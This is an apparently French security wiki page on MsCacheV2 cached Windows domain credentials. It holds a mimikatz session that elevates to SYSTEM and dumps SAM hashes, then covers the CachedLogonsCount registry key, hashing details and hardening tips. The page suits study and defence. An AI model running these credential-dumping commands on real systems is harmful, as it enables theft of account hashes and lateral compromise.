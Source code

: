 ```yaml
---
title: MsCacheV2
permalink: /MsCacheV2/
---
```


# MsCacheV2

Par défaut Windows stocke des hashs des utilisateurs du domaine qui s'authentifient pour permettre une authentification quand le DC n'est pas joignable.

Mimikatz permet de dumper ces hashs (voir https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump)
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::whoami
 * Process Token : 623884       vm-w7-ult-x\Gentil Kiwi S-1-5-21-1982681256-1210654043-1600862990-1000  (14g,24p)       Primary
 * Thread Token  : no token

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : AUTORITE NT\Système

228     24215           AUTORITE NT\Système     S-1-5-18        (04g,30p)       Primary
 -> Impersonated !
 * Process Token : 623884       vm-w7-ult-x\Gentil Kiwi S-1-5-21-1982681256-1210654043-1600862990-1000  (14g,24p)       Primary
 * Thread Token  : 624196       AUTORITE NT\Système     S-1-5-18        (04g,30p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : VM-W7-ULT-X
SysKey : 74c159e4408119a0ba39a7872e9d9a56

SAMKey : e44dd440fd77ebfe800edf60c11d4abd

RID  : 000001f4 (500)
User : Administrateur
LM   :
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0
```
Le nombre de credentials gardé en cache est contrôlé par une clé de registre:

``` text
   HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\Winlogon\

   ValueName: CachedLogonsCount
   Data Type: REG_SZ
   Values: 0 - 50
```

Quelques éléments importants:
- MsCacheV2 est salé avec le nom de l'utilisateur
- MsCacheV2 utilise RC4 avant Vista & 2008. A partir de ces versions il utilise PBKDF2 avec 1024 itérations. A noter que le nombre d'itérations peut être différent (voir [MsCache v2 / DCC2 et nombre d’itérations](http://blog.gentilkiwi.com/securite/mscache-v2-dcc2-iteration))
- Il est possible d'empêcher le système de conserver un hash en local (surtout sur les serveurs)
- Mettre une valeur de "1" pour CachedLogonsCount peut avoir des effets de bord indésirables (voir [Cached logons and CachedLogonsCount](https://blogs.technet.microsoft.com/instan/2011/12/06/cached-logons-and-cachedlogonscount/))

## Références
- [Cached domain logon information](https://support.microsoft.com/en-us/kb/172931)
